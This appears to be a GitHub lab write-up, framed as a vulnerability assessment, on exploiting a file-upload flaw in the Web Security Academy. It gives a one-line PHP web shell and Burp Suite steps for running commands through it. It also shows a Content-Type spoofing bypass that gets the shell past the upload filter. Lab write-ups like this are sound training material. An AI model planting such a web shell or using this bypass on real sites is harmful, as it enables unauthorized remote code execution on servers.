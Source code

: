 # Web Exploitation with PHP

## Scenario: CyberVet Technologies' Vulnerability Assessment for Web Security Academy

## Project Name: Web Security Academy Vulnerability Assessment

## Client: Web Security Academy

## Service Provider: CyberVet Technologies

## Objective: Identify and address web vulnerabilities to ensure the website's safety and security for end users.

## Project Context
Web Security Academy is a prominent organization that provides training and resources on web security best practices. As part of their commitment to delivering a secure learning environment, they have engaged CyberVet Technologies to perform a comprehensive vulnerability assessment on their website. The goal is to identify any security weaknesses that could potentially compromise the integrity of the website or the safety of its users.

## Findings in Steps 

1. The first step we are going to do is create a php file in Linux.
filename: webshell.php
<?php echo system($_GET['command']); ?>

2. Second step is to log into Web Security Academy with the appropriate log in credentials. Once we are logged in head to 
my account and upload an Avatar file which would be the PHP file we created. 

![image](https://github.com/user-attachments/assets/5cb825d1-0448-4d5c-a90f-766f17723b98)


3. The First vulnerability I see is that we can upload any file. That means I select any file I want so in this case we are going to upload webshell.php.
   
![image](https://github.com/user-attachments/assets/9158a8f3-74b0-4d17-9ecb-982b92b93744)



4. Once the file is uploaded go ahead and open Burpe Suite. Once that is open head to your web browser and copy the url of where you uploaded the avatar file. Hover over the image to find the file path --> right-click and select inspect. As you can tell with the image below the file path is /files/avatars/webshell.php

![image](https://github.com/user-attachments/assets/1abec7b2-2c76-4b4c-aa1b-9a7a739d7122)


5. Once the url has been copied go back to Burpesuite and select on the target tab --> open browser --> paste url --> log in --> tab over to Dashboard in burpesuite --> select New live task --> Make sure to select Repeater --> Hit OK

![image](https://github.com/user-attachments/assets/a8180787-219d-4088-9270-d23f53b36d82)


6. Tab over to Proxy --> HTTP History --> look for the file path /file/avatars/webshell.php -->  

![image](https://github.com/user-attachments/assets/c5fec6e6-47a3-43ca-9f07-c72fcefa79c8)


7. Once the file path is found copy all--> tab over to Repeater then past

![image](https://github.com/user-attachments/assets/8553c82e-d886-464e-b919-3d4979702fdc)
![image](https://github.com/user-attachments/assets/67f8f80a-3a62-4f1a-931b-4505ae8a0641)

8. You hit send to make sure everything still works. You will get a HTTP 200 response

![image](https://github.com/user-attachments/assets/9dc9c44e-4ee8-42c4-a827-62ef24eadb18)

9. From here we can go ahead and insert the variable ?command=ls hit send and you'll notice now that in Response you have two webshell.php

![image](https://github.com/user-attachments/assets/d64b79b4-83a6-449b-bc8b-93d10d87c3b6)

10. Hit send and you'll notice now that in Response you have two webshell.php

![image](https://github.com/user-attachments/assets/2c78d553-b59d-4323-a2ca-7acddd03f837)

## Vulnerability Number 2 I found

During my scan I realized that some files I tried to upload were not permitted by the system. 

I went back to Burpesuite and looked for the Request for /my-account/avatar. Once I found the Request I scrolled down to where Content-Type  was --> Right-Clicked-->Send to Repeater--> Changed it from application/x-php to image/png. 

![image](https://github.com/user-attachments/assets/b22301a6-1a35-41f3-8b58-9eee4fe504e4)

Once the change was made I hit send to make sure it worked and I got a HTTP response code back. 

![image](https://github.com/user-attachments/assets/f71d893d-ca4c-4f9c-83db-5847e6ed38f9)

What I did was essentailly lied and changed the request type to an image versus a php file. 

## As you can see we have successfully achieved Remote Code Execution
